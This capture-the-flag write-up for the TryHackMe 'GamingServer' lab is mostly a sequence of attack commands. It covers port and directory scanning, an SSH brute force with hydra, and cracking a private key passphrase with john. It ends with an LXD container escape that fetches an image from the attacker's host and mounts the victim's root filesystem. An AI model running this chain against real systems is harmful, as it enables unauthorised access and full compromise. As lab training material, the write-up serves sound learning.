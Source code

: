 # GamingServer

**Room Link:** [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7) (11).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>









### SSH port 22

Tried bruteforcing ssh with johns username and the dictionary file we found but it didn't work

**Kali**

```
hydra -l john -P dict.lst ssh://$VICTIM
```



### TCP/80 - HTTP



<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>



### SSH port 22

After finding the key I bruteforced that with the dictionary list found

**Kali**

```
chmod 700 secretKey
/opt/john/ssh2john.py secretKey > id_john.txt
john --wordlist=/root/dict.lst id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i secretKey john@$VICTIM
Password: letmein
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://10.10.73.204:81/alpine-v3.18-x86_64-20230712_1453.tar.gz
lxc image import ./alpine-v3.18-x86_64-20230712_1453.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (18) (10).png" alt=""><figcaption></figcaption></figure>

















































